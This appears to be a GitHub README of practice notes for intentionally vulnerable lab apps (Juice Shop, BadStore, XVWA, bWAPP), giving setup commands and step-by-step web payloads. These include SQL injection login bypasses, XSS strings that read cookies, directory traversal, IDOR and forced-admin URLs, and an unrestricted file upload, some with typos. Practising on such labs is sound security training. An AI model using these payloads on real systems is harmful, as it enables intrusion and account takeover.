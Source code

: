 # mikeryan_vuln

install docker 

https://docs.docker.com/engine/install/debian/


[if there is an error like docker already running 

then run command 
sudo docker stop (container_name)

if required 
sudo docker rm (conatiner_name) ]


1) Juice Shop 

	install docker 

	sudo docker pull bkimminich/juice-shop

	sudo docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop


Vulnerability 

	1) in url add: 
 	    localhost:3000/#/administration

	2) inside login 
	for username give 'OR 1=1-- and password anything

	3) go to inspect
	 add script inside div tag class="cdk-live-announcer-eleme cdk-visually-hidden"
	<img rc="invalid_image" onerror="alert('XSS')">

	4) Directory Traversal 
	http://localhost:3000/ftp

	5) Information Disclosure (API Data)
	curl -X POST http://localhost:3000/api/export-data -d "user_id=1234"

	info got in output

	Framework Info:Express.js
	Third-Party Libraries: Libraries like morgan
	File Paths and Line Numbers: Exposes internal paths, such as 
	/juice-shop/build/routes/angular.js, revealing where the error occurred in the 
	app.
	

if required
	sudo docker stop juice-shop
	sudo docker rm juice-shop



2) BadStore

	sudo docker pull jvhoof/badstore-docker
	sudo docker run -d -p 80:80 jvhoof/badstore-docker

	http://localhost

vulnerability 

     1) in search bar add 

        <script>alert('XSS')</script>

         you will get xss

	2)  in search bar add
	<script>alert(0)</script>
 
	you will get pop up showing reflected XSs

	3) in supplier login 
	within email address add payload 

	1’ or ‘1’=’1-- -  
	or 
	admin

	you will be able to login as a supplier 

	3) Click on supplier contract and it will download the contract without you being 	an authenticated supplier ie. you have not logged in as supplier yet 

	4) in browser url add

	http://localhost/cgi-bin/badstore.cgi?action=admin

	u will directly log in as admin and showing BAC

	5)  in terminal , information disclosure for server used

	curl -I http://localhost/cgi-bin/badstore.cgi

	6) SQL injection , found all available products 
	http://localhost/cgi-bin/badstore.cgi?action=search&search&query=1'OR'1'='1





3) XVWA


download iso file 
https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/


run the iso file on vm ware 
once open xvwa 

ifconfig on xvwa machine 

using that ip , on kali browser
do 
http://192.168.71.132/xvwa/


vulnerability 

	1) server side template injection 

	there add <script>alert(0)</script>

	2) in sql injection 

	add in search 1 or ' , and submit it will give error based output (reason upto)

	3) insecure object reference 

	in url item=some one number in range 1 to 5 
	but we give more than 5 still it take as input and display output 
	so first select item and submit , then change url 

	http://192.168.71.132/xvwa/vulnerabilities/idor/?item=7

	4) created a vulnerable payload using gedit or nano (eg add script to it)

	go to unrestricted file upload and upload image 
	no intput sanitisation 

	5) login using username pass admin and admin 
	then go to missing access control and you can delete select options

	then logout 
	and again go to missing access control there select an option 
	click on view 
	and on url change action=view to action=delete



4) BWAPP


docker pull raesene/bwapp
docker run -d -p 8080:80 raesene/bwapp

in browser 

http://localhost:8080/install.php

Login to bwapp
Username:bee
Password:bug

Find the vulnerabilities

	1) Sql injection(get search)

	‘OR 1==1—
	click search you will get , error based , click search again 

	2) Cross site scripting

	Select html injection (reflected)
	
	Then in frst and last name u add payload
	First name=<script>alert(document.cookie);</script>
	Last name=<img src=x onerror=alert(document.cookie)>
	Right click on page – view source page [check for script you have injected]

	3) information disclosure
	Select information disclosure-php version

	4) curl -I http://localhost:8080/login.php

	5) directory traversal-
	directories u select under a7 and press hack
	http://localhost:8080/directory_traversal_2.php?directory=documents
	
	remove documents and add =../
	Payload=http://localhost:8080/directory_traversal_2.php?directory=../

	6) oldbackup and unreferred file under a5
	
	Just change the url
	localhost:8080/sm_obu_files.php
	smo_obu_files.php change to backdoor.php

	





	 


                         


